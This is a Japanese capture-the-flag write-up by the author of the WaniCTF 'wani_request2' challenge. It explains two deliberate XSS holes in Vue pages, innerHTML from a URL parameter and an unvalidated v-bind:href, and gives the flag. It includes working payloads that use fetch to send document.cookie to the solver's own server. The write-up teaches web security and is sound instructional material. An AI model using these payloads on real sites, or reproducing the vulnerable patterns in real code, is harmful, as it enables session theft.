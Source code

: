 # wani_request2

## 問題文

XSS Challenge !!

<https://request2.web.wanictf.org/>

チャレンジは二つです。

あどみんちゃんのクッキーを手に入れてください。

Wani Request 1 と同じくRequestBinなどを利用してみましょう。

## フラグ

`FLAG{y0u_4r3_x55-60d_c75a4c80cf07}`

## 解法
### はじめに
準備問題のWani Request 1 をクリアしてから挑むXSS問題としてWani Request 2 を作成しました。

Wani Request 2 はpage1,2を用意しています。
それぞれのページでXSSを発生させることであどみんちゃんのCookieを二つ手に入れる問題になっています。
それぞれのCookieにはFLAGが半分ずつ入っているので合体させるとクリアです。

なお想定解法の前に「XSSって何？」という方のためにXSSについて解説しようかと思ったのですが、こちらのページ([3分でわかるXSSとCSRFの違い](https://qiita.com/wanko5296/items/142b5b82485b0196a2da))の図が分かりやすかったのでリンクだけ貼らせて頂きます。

### 想定解法
まずはWani Request 1 と同様にRequestBinなどを利用してリクエストを受け取るサーバを用意してください。

次にWani Request 2 の問題ページにアクセスするとFLAGのフォーマットに関する情報が提示されます。page1とpage2でそれぞれチャレンジをクリアして手に入れたFLAGの断片を合体させると正解ということが分かります。

![page2top](pic/page2top.png)

#### page1の解き方
page1にアクセスすると↓のような画面が表示されます。
緑色の矢印で示している通り、waniというURLパラメータに入れた文字列がそのまま表示されるようになっています。

![req2page1](pic/req2page1.png)

配布ファイル(Page1.vue)でも該当部分を確認してみましょう。

↓のコードは配布ファイル(Page1.vue)から関係する部分だけ抜粋したものです。
waniだらけで分かりにくいですが、3行目にURLパラメータで指定した文字列がそのまま挿入される形になっており、XSSの脆弱性があります。
```
<template>
  <b-container class="mt-3">
    <p>wani=<span id="wani"></span></p>
  </b-container>
</template>
<script>
export default {
  data() {
    return {
      msg: this.$route.query.wani,
    };
  },
  mounted() {
    var wani = document.getElementById("wani");
    wani.innerHTML = this.msg;
  },
};
</script>
```

文字列がそのまま挿入されるということなので、例えば```<img src="" onerror="alert('XSS!');">```のようにHTMLタグを用いてscriptを挿入可能です。(この場合アラートが画面に表示されます。)

(注:URL欄に入力しただけではアラートは出ません。Enterを入力するなどしてページを読み込み直してください。)

![page1alert](pic/page1alert.png)

よって、あどみんちゃんが同じパラメータを持ったリンクを踏めばあどみんちゃんのブラウザ上でも同じようにscriptが実行されるはずです。

Cookieを表示させるだけなら```<img src="" onerror="alert(document.cookie);">```で表示できますが、これではあどみんちゃんのブラウザ上でアラートとして表示されるだけなので意味がありません。
あどみんちゃんのCookieを手に入れるにはCookieを自分の用意したサーバに送信してもらう必要があります。

そこで[Fetch](https://developer.mozilla.org/ja/docs/Web/API/Fetch_API/Using_Fetch)を利用してcookieを送信してもらうことにします。以下がfetchを利用した想定解です。

```<img src="" onerror="fetch(`https://(自分のサーバーのURL)/?cookie=${document.cookie}`)">```

フォームにクエリを書いて送信ボタンを押すと、自分のサーバにcookieが届きます。
RequestBinを利用する場合は届いたリクエストの一番下を見ると```/?cookie=flag1=FLAG{y0u_4r3_x55```とあります。
これがFLAGの半分ということになります。

![page1flag](pic/page1flag.png)

### page2の解き方
page2にアクセスすると↓のような画面が表示されます。
緑色の矢印で示している通り、入力フォームに入力した文字列がリンクとして表示されます。

![req2page2](pic/req2page2.png)

↓のコードは配布ファイル(Page2.vue)から関係する部分だけ抜粋したものです。
入力したtextをv-bind:hrefによってリンク先として設定しています。
[Vue.jsの公式ドキュメント](https://jp.vuejs.org/v2/guide/security.html#URL-%E3%81%AE%E6%8C%BF%E5%85%A5)にもある通り、 javascript:を利用してJavaScriptを実行できそうです。

```
<template>
  <b-container class="mt-3">
    <p>URLを入力してください。</p>
    <b-form-textarea
      id="textarea"
      v-model="text"
      placeholder="enter text"
      rows="1"
      max-rows="2"
    ></b-form-textarea>

    <p>
      入力したURL: <a id="link" v-bind:href="text">{{ text }}</a>
    </p>
  </b-container>
</template>

<script>
export default {
  data() {
    return {
      text: "https://www.google.com/",
      res: "送信してね",
      buttonLoading: false,
      token: ""
    };
  },
};
</script>
```

早速やってみます。入力フォームに```javascript:alert('XSS!');```を入れて、表示されるリンクをクリックすると以下のようにalertが表示されます。

![page2alert](pic/page2alert.png)

ここまで来ればあとはpage1と同じです。
```javascript:fetch(`https://(自分のサーバーのURL)/?cookie=${document.cookie}`);```という文字列を入力フォームに入力して、送信ボタンを押せば、自分のサーバにcookieが届きます。

一番下にFLAGの半分があります。

![page2flag](pic/page2flag.png)

ということで、page1でゲットしたFLAGと合体させて、
```FLAG{y0u_4r3_x55-60d_c75a4c80cf07}```が正解となります。

### おわりに

この問題では2つのパターンでXSSを体験して頂きました。

何も考えずにWebページを作っているとXSS脆弱性を仕込んでしまうかもしれないので、十分に気を付けましょう。

XSSって聞くの初めて、という方にXSSの危険性がなんとなくでも伝わっていれば幸いです。

